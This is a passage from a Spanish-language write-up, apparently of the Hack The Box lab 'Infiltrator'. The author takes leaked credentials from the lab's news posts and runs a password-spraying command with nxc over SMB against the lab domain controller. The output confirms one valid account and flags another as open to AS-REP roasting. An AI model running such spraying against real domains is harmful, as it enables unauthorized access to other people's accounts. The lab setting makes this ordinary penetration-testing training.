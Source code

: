 Por otro lado, también vemos que en las noticias aparecen lo que parecen ser las credenciales de acceso del usuario `m.harris@infiltrator.htb`.

<figure><img src="../../.gitbook/assets/imagen (54).png" alt="" width="539"><figcaption></figcaption></figure>

Probaremos de  realizar un _**Password Spraying**_ para verificar si estas credenciales son válidas para algún usuario.

```bash
❯ nxc smb dc01.infiltrator.htb -u users.txt -p 'D3v3l0p3r_Pass@1337!' -k --continue-on-success
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\d.anderson:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\o.martinez:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\a.walker:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:D3v3l0p3r_Pass@1337! 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\e.rodriguez:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\l.clark account vulnerable to asreproast attack
```
